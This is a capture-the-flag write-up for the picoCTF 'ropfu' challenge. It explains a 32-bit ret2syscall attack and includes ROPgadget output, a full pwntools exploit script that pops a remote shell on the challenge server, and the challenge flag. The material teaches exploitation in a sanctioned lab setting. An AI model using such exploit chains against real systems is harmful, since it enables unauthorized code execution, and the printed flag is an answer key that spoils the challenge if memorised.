



# ropfu
## Overview
Points: 300  
Category: Binary Exploitation  

## Description
What's ROP? Can you exploit the following program to get the flag? Download source. nc saturn.picoctf.net 61297

## Hints

1. This is a classic ROP to get a shell

## Solution

If you think this is a simple gadget playground, you're 50% right and 50% wrong, the attack that we are going to do in this challenge is called ret2syscall attack. There are a huge different (at least for me) between a 32-bit ret2syscall and 64-bit ret2syscall.

Run a checksec and we'll find our biggest enemy, **THE CANARY**, but worry not, in a ret2syscall attack cannary is not a big problem (in 32-bit of course).

<p align=center>
    
</p>

We need to find the offset first, but there is canary....
well don't worry just do the usual `pattern create x` and put everything in once you run the binary, and just `pattern offset $esp` and you found it. Don't forget to `-4` the offset you find, it's a 32-bit binary.

<p align=center>
    
</p>

So here come the next question, "How to do a ret2syscall in 32-bit?", the answer- simple just run this

```
ROPgadget --binary vuln --ropchain
```

What it does is simply build us a ropchain that will give us a shell - sometimes we can't use this and need to write it manually (I publish a ret2syscall challenge in my [Challenge-Archive](https://github.com/Kiinzu/Challenge-Archive) repo, you can try the manual here.)

The `--ropchain` result:
```python
ROP chain generation
===========================================================

- Step 1 -- Write-what-where gadgets

	[+] Gadget found: 0x80590f2 mov dword ptr [edx], eax ; ret
	[+] Gadget found: 0x80583b9 pop edx ; pop ebx ; ret
	[+] Gadget found: 0x80b073a pop eax ; ret
	[+] Gadget found: 0x804fb80 xor eax, eax ; ret

- Step 2 -- Init syscall number gadgets

	[+] Gadget found: 0x804fb80 xor eax, eax ; ret
	[+] Gadget found: 0x808054e inc eax ; ret

- Step 3 -- Init syscall arguments gadgets

	[+] Gadget found: 0x8049022 pop ebx ; ret
	[+] Gadget found: 0x8049e29 pop ecx ; ret
	[+] Gadget found: 0x80583b9 pop edx ; pop ebx ; ret

- Step 4 -- Syscall gadget

	[+] Gadget found: 0x804a3c2 int 0x80

- Step 5 -- Build the ROP chain

#!/usr/bin/env python3
# execve generated by ROPgadget

from struct import pack

# Padding goes here
p = b''

p += pack('<I', 0x080583b9) # pop edx ; pop ebx ; ret
p += pack('<I', 0x080e5060) # @ .data
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x080b073a) # pop eax ; ret
p += b'/bin'
p += pack('<I', 0x080590f2) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080583b9) # pop edx ; pop ebx ; ret
p += pack('<I', 0x080e5064) # @ .data + 4
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x080b073a) # pop eax ; ret
p += b'//sh'
p += pack('<I', 0x080590f2) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080583b9) # pop edx ; pop ebx ; ret
p += pack('<I', 0x080e5068) # @ .data + 8
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x0804fb80) # xor eax, eax ; ret
p += pack('<I', 0x080590f2) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x08049022) # pop ebx ; ret
p += pack('<I', 0x080e5060) # @ .data
p += pack('<I', 0x08049e29) # pop ecx ; ret
p += pack('<I', 0x080e5068) # @ .data + 8
p += pack('<I', 0x080583b9) # pop edx ; pop ebx ; ret
p += pack('<I', 0x080e5068) # @ .data + 8
p += pack('<I', 0x080e5060) # padding without overwrite ebx
p += pack('<I', 0x0804fb80) # xor eax, eax ; ret
p += pack('<I', 0x0808054e) # inc eax ; ret
p += pack('<I', 0x0808054e) # inc eax ; ret
p += pack('<I', 0x0808054e) # inc eax ; ret
p += pack('<I', 0x0808054e) # inc eax ; ret
p += pack('<I', 0x0808054e) # inc eax ; ret
p += pack('<I', 0x0808054e) # inc eax ; ret
p += pack('<I', 0x0808054e) # inc eax ; ret
p += pack('<I', 0x0808054e) # inc eax ; ret
p += pack('<I', 0x0808054e) # inc eax ; ret
p += pack('<I', 0x0808054e) # inc eax ; ret
p += pack('<I', 0x0808054e) # inc eax ; ret
p += pack('<I', 0x0804a3c2) # int 0x80
```

With a little adjustment to make it neater, we got the exploit ready! 

```python
from pwn import *

binary = './vuln'
elf = context.binary = ELF(binary)

#x = process(binary)
p = remote('saturn.picoctf.net',60316)

payload = b'a'*28
payload+= p32(0x080583b9) # pop edx ; pop ebx ; ret
payload+= p32(0x080e5060) # @ .data
payload+= p32(0x41414141) # padding
payload+= p32(0x080b073a) # pop eax ; ret
payload+= b'/bin'
payload+= p32(0x080590f2) # mov dword ptr [edx], eax ; ret
payload+= p32(0x080583b9) # pop edx ; pop ebx ; ret
payload+= p32(0x080e5064) # @ .data + 4
payload+= p32(0x41414141) # padding
payload+= p32(0x080b073a) # pop eax ; ret
payload+= b'//sh'
payload+= p32(0x080590f2) # mov dword ptr [edx], eax ; ret
payload+= p32(0x080583b9) # pop edx ; pop ebx ; ret
payload+= p32(0x080e5068) # @ .data + 8
payload+= p32(0x41414141) # padding
payload+= p32(0x0804fb80) # xor eax, eax ; ret
payload+= p32(0x080590f2) # mov dword ptr [edx], eax ; ret
payload+= p32(0x08049022) # pop ebx ; ret
payload+= p32(0x080e5060) # @ .data
payload+= p32(0x08049e29) # pop ecx ; ret
payload+= p32(0x080e5068) # @ .data + 8
payload+= p32(0x080583b9) # pop edx ; pop ebx ; ret
payload+= p32(0x080e5068) # @ .data + 8
payload+= p32(0x080e5060) # padding without overwrite ebx
payload+= p32(0x0804fb80) # xor eax, eax ; ret
payload+= p32(0x0808054e) # inc eax ; ret
payload+= p32(0x0808054e) # inc eax ; ret
payload+= p32(0x0808054e) # inc eax ; ret
payload+= p32(0x0808054e) # inc eax ; ret
payload+= p32(0x0808054e) # inc eax ; ret
payload+= p32(0x0808054e) # inc eax ; ret
payload+= p32(0x0808054e) # inc eax ; ret
payload+= p32(0x0808054e) # inc eax ; ret
payload+= p32(0x0808054e) # inc eax ; ret
payload+= p32(0x0808054e) # inc eax ; ret
payload+= p32(0x0808054e) # inc eax ; ret
payload+= p32(0x0804a3c2) # int 0x80

p.recv()
p.sendline(payload)

p.interactive()
```

HAHAHAHA SHELL IS OURS! :relaxed:

<p align=center>
    
</p>

## Flag

```picoCTF{5n47ch_7h3_5h311_05369705}```